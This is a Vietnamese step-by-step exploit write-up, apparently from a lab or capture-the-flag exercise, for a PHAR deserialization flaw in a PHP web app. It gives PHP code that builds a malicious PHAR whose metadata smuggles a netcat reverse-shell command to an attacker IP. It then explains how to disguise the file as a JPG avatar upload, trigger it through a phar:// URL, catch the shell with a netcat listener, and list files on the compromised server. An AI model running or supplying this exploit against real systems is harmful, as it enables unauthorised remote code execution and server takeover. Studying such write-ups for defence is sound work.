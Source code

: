 #### **3. Khai thác lỗ hổng PHAR Deserialization**

##### **Bước 1: Tạo PHAR độc hại**
Tạo một tệp PHAR với metadata chứa payload. Ví dụ payload ở đây là khởi động reverse shell.

```php
<?php
include('UserSettings.php'); // Định nghĩa đối tượng UserSettings
$phar = new Phar("exploit.phar");
$phar->startBuffering();
$phar->addFromString('0', ''); // Nội dung tệp
$phar->setStub("<?php __HALT_COMPILER(); ?>"); // Dừng xử lý mã PHP trong tệp
$phar->setMetadata(new \App\Helpers\UserSettings(
    '"; nc -nv <ATTACKER_IP> 9999 -e /bin/bash;#', 
    '[email protected]', 
    '$2y$10$hash_here', 
    'default.jpg'
)); // Metadata chứa payload
$phar->stopBuffering();
```

**Ghi chú:**  
- Nếu gặp lỗi `phar.readonly`, chỉnh sửa file `/etc/php/7.4/cli/php.ini` bằng cách đặt `phar.readonly = Off`.

##### **Bước 2: Tải lên tệp PHAR**
- Đổi tên tệp PHAR thành `exploit.jpg`.
- Tải tệp lên thông qua chức năng tải ảnh đại diện.

##### **Bước 3: Kích hoạt khai thác**
- Lấy đường dẫn của tệp đã tải lên và thêm tiền tố `phar://`.
- Truy cập đường dẫn:  
  ```
  http://SERVER_IP:8000/image?_=phar://uploads/<MD5>.jpg
  ```
- Máy chủ sẽ gọi `file_exists('phar://uploads/MD5.jpg')`, dẫn đến việc giải tuần tự hóa metadata và thực thi payload.

##### **Bước 4: Nhận shell**
- Chạy lệnh Netcat để lắng nghe:  
  ```
  nc -nvlp 9999
  ```
- Khi payload được kích hoạt, máy chủ sẽ kết nối ngược lại, cung cấp shell.

---

#### **4. Kết quả khai thác**
Kẻ tấn công nhận được quyền truy cập vào máy chủ qua reverse shell. Ví dụ, kết quả thực hiện lệnh `ls -l` trên máy chủ:

```
drwxr-xr-x 2 kali kali 4096 Oct 19 21:38 css
-rw-r--r-- 1 kali kali 5963 Oct 19 21:35 default.jpg
-rw-r--r-- 1 kali kali 1710 Apr 12  2022 index.php
drwxr-xr-x 2 kali kali 4096 Oct 19 22:47 uploads
```

---